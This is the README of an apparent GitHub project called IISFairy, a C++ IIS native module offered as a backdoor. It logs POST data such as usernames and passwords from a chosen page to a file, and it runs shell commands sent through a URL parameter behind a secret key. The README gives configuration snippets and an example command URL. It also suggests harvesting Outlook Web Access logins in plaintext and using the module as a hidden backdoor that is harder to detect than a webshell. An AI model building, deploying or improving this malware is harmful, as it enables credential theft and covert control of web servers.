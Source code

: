 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :

PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :

LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :

std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :

PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :

std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :

http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;

Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy


# Attack scenarion or should i say usage scenario ;-)

--> Set capture url to /owa/owa to save users login credentials in plaintext.

--> Use it as a build in backdoor, it's way for flexible, less detecable then a webshell.

    If uses right this backdoors the whole IIS server in compare to a webshell which is just a single file.

    You can execute the cmd's basically by calling url, no matter if page exists or not, etc.


